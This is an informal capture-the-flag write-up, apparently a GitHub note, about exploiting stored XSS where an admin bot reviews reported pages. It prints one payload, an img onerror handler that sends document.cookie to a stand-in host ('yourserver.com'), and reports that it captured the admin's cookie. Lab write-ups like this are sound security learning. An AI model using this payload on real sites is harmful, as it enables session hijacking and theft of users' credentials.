 > xss (stored?)

So apparently when i press reprot admin, some guy in the back end just opens the site and review everything??? Thats like insane 25/8 support (25hours a day, 8 days a week, explaining the joke to future me)

![image](https://github.com/user-attachments/assets/86879cff-b63c-473d-a1e3-0148973fab38)

lets start commenting. Triggered an XSS somewhere, then the instance died. Now back with a new one with new tricks.

In the end i broke the site with this payload, cuz it keeps redirecting me. 

![image](https://github.com/user-attachments/assets/7a3a8063-c5d3-425c-9ee0-87fc7ff76140)

```<img src=x onerror="location.href='http://yourserver.com/?c='+document.cookie">```

but on the bright side, we got the admin's cookie by also redirectling the poor fella =)

![image](https://github.com/user-attachments/assets/dd580c3c-1ec8-4c57-8cd7-f5b62c1d0182)




